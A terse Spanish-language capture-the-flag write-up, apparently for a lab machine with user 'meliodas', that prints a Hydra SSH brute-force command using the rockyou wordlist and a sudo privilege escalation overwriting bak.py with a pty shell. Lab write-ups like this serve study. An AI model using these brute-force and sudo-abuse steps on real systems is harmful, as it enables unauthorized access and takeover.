


NMAP
WEB

Fuerza Bruta
Usando Hydra para fuerza bruta en SSH:
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.146.26 -t4SSH
Flag Usuario
Comando utilizado para visualizar la bandera:
cat user.txtEscalada de Privilegios
Verificación de permisos con:
sudo -lCreación y ejecución de un script para obtener una shell:
rm -f bak.pyecho 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.pysudo python /home/meliodas/bak.py